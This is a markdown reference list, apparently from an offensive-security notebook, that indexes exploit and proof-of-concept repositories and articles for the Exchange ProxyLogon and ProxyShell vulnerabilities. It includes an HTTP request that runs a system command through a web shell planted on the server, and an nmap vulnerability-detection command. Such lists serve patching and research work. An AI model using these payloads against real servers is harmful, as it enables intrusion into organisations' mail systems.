 **POC | Payload | exp**
- [hausec/ProxyLogon](https://github.com/hausec/ProxyLogon)
- [dwisiswant0/proxylogscan](https://github.com/dwisiswant0/proxylogscan)
- [sirpedrotavares/Proxylogon-exploit](https://github.com/sirpedrotavares/Proxylogon-exploit)
- [charlottelatest/CVE-2021-26855](https://github.com/charlottelatest/CVE-2021-26855) - 用户枚举
- [exp.py](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Exchange/CVE-2021-26855%20Exchange%20RCE/exp.py)
    ```
    POST /owa/auth/test11.aspx HTTP/1.1
    Host: 192.168.141.136
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/88.0.4324.190 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Cookie: X-BEResource=WIN-4J4L8GP7BF2/EWS/Exchange.asmx?a=~1942062522;
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 90

    code=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami").StdOut.ReadAll());
    ```
- [microsoft/CSS-Exchange/blob/main/Security/README.md](https://github.com/microsoft/CSS-Exchange/blob/main/Security/README.md)
    ```
    nmap -p <port> --script http-vuln-cve2021-26855 <target>
    ```
- [CVE-2021-26855 Exchange RCE](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/tree/master/Exchange/CVE-2021-26855%20Exchange%20RCE)
- [p0wershe11/ProxyLogon](https://github.com/p0wershe11/ProxyLogon) - ProxyLogon(CVE-2021-26855+CVE-2021-27065) Exchange Server RCE(SSRF->GetWebShell)
- [Flangvik/SharpProxyLogon](https://github.com/Flangvik/SharpProxyLogon)
- [Jumbo-WJB/Exchange_SSRF](https://github.com/Jumbo-WJB/Exchange_SSRF)

---

### Proxyshell

**相关文章**
- [Exchange SSRF漏洞从proxylogon到proxyshell(一)](https://mp.weixin.qq.com/s/B_5WWNjG110PCS_gHcpR-A)
- [Exchange proxyshell exp编写(二）](https://mp.weixin.qq.com/s/aEnoBvibp-gkt3qtcOXqAw)
- [Exchange-Proxyshell](https://mp.weixin.qq.com/s/GWFsIRlyR7i8nbg6b7kDnA)

**POC | Payload | exp**
- [GossiTheDog/scanning](https://github.com/GossiTheDog/scanning)
- [dmaasland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc)
- [Ridter/proxyshell_payload](https://github.com/Ridter/proxyshell_payload)
- [ktecv2000/ProxyShell](https://github.com/ktecv2000/ProxyShell)
- [wudicainiao/proxyshell-for-exchange_workload](https://github.com/wudicainiao/proxyshell-for-exchange_workload)

---

### ProxyToken
